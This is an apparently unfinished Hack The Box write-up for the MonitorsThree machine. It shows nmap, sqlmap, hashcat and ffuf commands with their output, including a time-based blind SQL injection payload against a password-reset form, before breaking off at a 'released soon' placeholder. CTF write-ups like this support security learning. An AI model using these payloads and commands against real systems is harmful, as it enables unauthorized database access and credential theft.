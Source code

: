 ```yaml
---
title: "Hackthebox: Monitors-Three [Machine] [Season 6]"
author: c3l1kd
categories: [Hackthebox]
tags:
  [Privilege Escalation, Reverse Shell, Nmap, SQLi, Exploitation, (CVE-2024-25641)]
render_with_liquid: false
img_path: /images/hackthebox_monitorthree/
image:
  path: room_image.webp
---
```


**MonitorsThree** is a Medium HackTheBox machine where we start by enumerating a web server finding an SQLi that leads to data leak for then gaining a reverse shell by exploiting a vulnerability in cacti `(CVE-2024-25641)` , user pivoting by cracking a user’s hash and then exploit a Duplicati web app running locally to gain root access.

## Initial Enumeration

### Nmap Scan

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/MonitorsThree]
└─$ nmap -sC -sV 10.129.200.79 -oN monitors.out -T4    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 16:30 CET
Nmap scan report for 10.129.200.79
Host is up (0.084s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.77 seconds
```

We have identified `2` ports using nmap,

- **22/SSH** - (`open`)
- **80/HTTP** - (`open`)

## Web Server

Having a redirection when accessing the web server, we added a new entry into our `/etc/hosts`.

```console
127.0.0.1       localhost
127.0.1.1       voldemort
10.129.200.79   monitorsthree.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Taking a look at `http://monitorsthree.htb` we get a web app for a networking solutions firm. Looking around we found a login page at `http://monitorsthree.htb/login.ph`p with a reset password feature, trying some default creds such as admin:admin and root:root won’t be able to help us much so we decided to run an SQLMap on the form and see if it’s vulnerable to SQLi. Capturing a request using Burpsuite we gave it to SQLMap to try some SQLi payloads it didn’t work as intended but trying the same technique on `/forgot_password`.php it worked, the form was vulnerable to SQLi!

> ⚠️As it’s a time-based blind it will take some time to run and retrieve useful information.

![/etc/hosts](01.png){: width="1200" height="800" }

## Sqlmap 

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/MonitorsThree]
└─$ sqlmap -r forgot.req -dbms=mysql --dump --dbs --batch                                           
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.5#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:38:35 /2024-08-26/

[16:38:35] [INFO] parsing HTTP request from 'forgot.req'
[16:38:35] [INFO] testing connection to the target URL
got a 302 redirect to 'http://monitorsthree.htb/forgot_password.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 2766 FROM (SELECT(SLEEP(5)))QhIU) AND 'GfJL'='GfJL
---
[16:38:36] [INFO] testing MySQL
[16:38:36] [INFO] confirming MySQL
[16:38:36] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:38:36] [INFO] fetching database names
[16:38:36] [INFO] fetching number of databases
[16:38:36] [INFO] resumed: 2
[16:38:36] [INFO] resumed: information_schema
[16:38:36] [INFO] resumed: monitorsthree_db
available databases [2]:
[*] information_schema
[*] monitorsthree_db
```

We found a database called `monitorsthree_db`, digging deeper into it using SQLMap we were able to retrieve `4` hashes.

```console
┌──(str4ngerx㉿voldemort)-[~/Desktop/HackTheBox/MonitorsThree]
└─$ cat hashes | sed 's/|//g' | awk '{print $1,":",$2}' | sed 's/ //g' > hashes      
                                                                                                      
┌──(kali㉿kali)-[~/Desktop/HackTheBox/MonitorsThree]
└─$ cat hashes
admin:[REDACTED]
mwatson:[REDACTED]
janderson:[REDACTED]
dthompson:[REDACTED]
```

## Exploitation

### Reverse Shell

Cracking the hashes using hashcat we were able to get the admin’s plain-text password.

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/MonitorsThree]
└─$ hashcat hashes /usr/share/wordlists/rockyou.txt --username -m 0 --show
admin:31a181c8[REDACTED]:[REDACTED]
```

Using the credentials we got to connect we didn’t find anything useful for us to get a reverse shell.

So we decided to run a subdomain enumeration to fuzz the web server we found 1 subdomain, cacti.

## FUFF

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/MonitorsThree]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -fs 13560

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 13560
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 112ms]
:: Progress: [19966/19966] :: Job [1/1] :: 286 req/sec :: Duration: [0:00:53] :: Errors: 0 ::
```

Adding that to our `/etc/hosts` and having a look at it we get another form, trying the credentials we got earlier we were able to connect.

![/etc/hosts](02.png){: width="1200" height="800" }



<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">

  <style>
    .note-containers {
      max-width: 600px;
      width: 100%;
      padding: 20px;
      background-color: #28a745;
      color: white;
      border-radius: 15px;
      box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
      text-align: center;
      margin: 0 auto; /* Ensures the second container is centered */
    }

    .note-containers p {
      font-size: 1.2rem;
      line-height: 1.6;
    }

    .note-containers strong {
      font-weight: bold;
      font-size: 1.3rem;
      color: #ffdd57;
    }
  </style>
</head>
<body>
  <div class="note-containers">
    <p>
      This writeup will be released <strong>soon!</strong>
    </p>
  </div>
</body>
</html>
